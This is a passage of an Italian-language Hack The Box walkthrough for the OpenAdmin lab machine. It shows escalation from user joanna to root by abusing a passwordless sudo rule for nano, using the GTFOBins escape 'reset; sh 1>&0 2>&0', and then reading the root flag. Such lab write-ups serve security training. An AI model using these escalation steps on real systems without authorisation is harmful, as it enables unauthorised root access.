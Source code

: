 una volta ottenuta la nostra id_rsa non resta che seguire i punti visti in precedenza per ottenere un accesso ssh come utente joanna.
## joanna -> root

Una delle prime cose da vedere e provare a vedere  è se possiamo eseguire qualcosa con i privilegi di root e per farlo utilizziamo il comando `suodo -l`

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Vediamo che possiamo eseguire il binario `nano` con i privilegi di root, 
questo ci porta a quello che è definito come binary exploitation

Utilizziamo [GTFBINS](https://gtfobins.github.io) inserendo il nome del binario , in questo caso nano
e ci fornisce le istruzioni per exploitarlo.

```## Sudo[](https://gtfobins.github.io/gtfobins/nano/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- ```
    sudo nano
    ^R^X
    reset; sh 1>&0 2>&0
    ```
```

Seguiamo le istrzuioni, 

```bash
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

ci ritroviamo dentro nano

digitando `^R` e poi `^X`  ci nano ci da un prompt dove possiamo eseguire dei comandi 
e scriviamo quello che che dice GTFBINS `reset; sh 1>&0 2>&0`
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/openadmin6.png)
diamo invio ed un clear ed abbiamo un la nostra shell con i privilegi da root.

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
7a73d9b4eb6b376a6d60ca597c697d6a
#
```

Openadmin Pwd!